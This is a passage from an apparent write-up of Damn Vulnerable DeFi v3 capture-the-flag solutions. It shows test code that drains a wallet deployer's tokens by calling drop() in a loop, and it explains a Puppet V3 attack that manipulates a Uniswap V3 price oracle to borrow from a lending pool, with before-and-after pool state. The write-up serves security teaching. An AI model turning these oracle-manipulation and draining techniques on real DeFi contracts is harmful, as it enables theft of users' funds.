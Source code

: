 ```js
        // The `can()` function on `walletDeployer` should be true by now.
        expect(await walletDeployer.can(player.address,DEPOSIT_ADDRESS)).to.be.true;

        // Run `drop()` 43 times to drain all of `walletDeployer` tokens.
        for (let i = 0; i < 43; i++) {
            await walletDeployer.connect(player).drop([]);
        }

    });
```

### 14. Puppet V3

This challenge is similar to [Puppet V1](../damn-vulnerable-defi-v3-solutions-part-2/#8-puppet) and [Puppet V2](../damn-vulnerable-defi-v3-solutions-part-2/#9-puppet-v2), with the main distinction being its use of Uniswap V3 as an oracle. This post will not delve deeply into the intricacies of Uniswap V3, as it is quite complex and would necessitate a more detailed discussion.

For this challenge, briefly, Uniswap V3 introduces the possibility of depleting a liquidity range, meaning the `DVT/ETH` price could theoretically escalate to infinite big if liquidity isn't provided across the entire range. This is precisely the scenario in this challenge, and not even a time-weighted average price oracle can mitigate this issue. Therefore, our strategy would be swapping all our DVT for ETH on Uniswap V3, drastically inflating the oracle price, and then taking out a loan from the lending pool. For those interested in learning more about Uniswap V3, the [Uniswap V3 Development Book](https://uniswapv3book.com/index.html) is an excellent resource.

Price before swap:
```
[
  BigNumber { value: "79228162514264337593543950336" },
  0,
  1,
  40,
  40,
  0,
  true,
  sqrtPriceX96: BigNumber { value: "79228162514264337593543950336" },
  tick: 0,
  observationIndex: 1,
  observationCardinality: 40,
  observationCardinalityNext: 40,
  feeProtocol: 0,
  unlocked: true
]
```

Price after swap:
```

[
  BigNumber { value: "1461446703485210103287273052203988822378723970341" },
  887271,
  2,
  40,
  40,
  0,
  true,
  sqrtPriceX96: BigNumber { value: "1461446703485210103287273052203988822378723970341" },
  tick: 887271,
  observationIndex: 2,
  observationCardinality: 40,
  observationCardinalityNext: 40,
  feeProtocol: 0,
  unlocked: true
]
```